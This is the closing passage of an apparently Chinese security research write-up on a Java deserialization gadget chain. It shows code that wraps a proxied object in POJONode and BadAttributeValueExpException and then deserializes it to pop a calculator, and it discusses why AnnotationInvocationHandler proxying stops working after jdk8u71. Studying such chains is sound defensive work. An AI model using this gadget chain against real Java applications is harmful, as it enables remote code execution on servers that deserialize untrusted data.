 ```java
        POJONode node = new POJONode(cdsProxy);
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        setFieldValue(val, "val", node);


        byte[] serialize = Serializer.serialize(val);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(serialize);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();

```
运行修改后的`Jackson`链，正常弹出计算器，同时在日志中同样可以查看目标方法被成功调用  
![](002.png)  
在`jdk8u71`以下版本的运行环境中该修改可以成功运行，但在之后的版本中该修改是不能成功运行的，原因在于使用了`AnnotationInvocationHandler`来替换`getStylesheetDOM`的响应结果，  
`AnnotationInvocationHandler`在`jdk8u71`后被增加了新的限制，其只能代理使用了注解的方法，如：`@Override` 注解等。在`JSON1`链中我们代理的`getCompositeType`方法便存在注解`@Override`，所以不受`jdk`版本限制。  
## 总结
随着技术的发展以及JDK不断地更新，`AnnotationInvocationHandler`的使用被加上了限制，在jdk8u71后已经不再能够被随意使用。虽然如此，利用动态代理思想解决问题的思路是一以贯之的。
在不同的实践中也可能存在着其他更具利用价值的`InvocationHandler`值得我们去发掘。攻防对抗就是这样魔高一丈道高一尺，只有在攻与防的不断对抗中砥砺前行才能发现更多有效的思路与技巧。
